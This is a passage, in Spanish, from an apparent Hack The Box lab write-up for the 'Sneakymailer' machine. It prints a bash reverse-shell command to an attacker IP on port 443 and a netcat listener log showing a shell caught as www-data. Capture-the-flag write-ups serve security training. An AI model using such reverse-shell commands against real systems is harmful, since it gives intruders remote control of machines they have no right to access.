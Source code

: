 ![](/assets/images/HTB/htb-writeup-Sneakymailer/sneaky4.PNG)


Lo siguiente sera ganar acceso a la maquina, mandandonos una shell reversa a nuestra maquina local, ello lo haremos con `bash` con el comando `bash -c 'bash -i >& /dev/tcp/10.10.16.2/443 0>&1'`

No olvidemos poner los `&` en urleconde `%26` para evitar problemas, y enviamos la petición


![](/assets/images/HTB/htb-writeup-Sneakymailer/sneaky5.PNG)


Nos ponemos en escucha y recimos la conexión como el usuario `www-data`

```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:37818.
bash: cannot set terminal process group (734): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ whoami
whoami
www-data
```
